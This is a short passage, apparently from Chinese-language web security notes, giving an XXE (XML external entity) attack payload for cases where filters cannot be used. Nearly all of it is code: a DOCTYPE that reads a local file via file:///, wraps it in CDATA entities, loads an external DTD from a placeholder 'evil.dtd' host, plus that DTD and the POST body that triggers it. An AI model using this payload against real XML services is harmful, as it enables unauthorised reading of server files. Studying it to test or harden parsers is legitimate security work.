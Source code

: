 ![image-20230605193428910](../../../images/image-20230605193428910.png)

当不能使用过滤器时

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///f:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

POST数据

```xml-dtd
<!-- &all是使用evil.dtd中的实体-->
<roottag>&all;</roottag>  
```

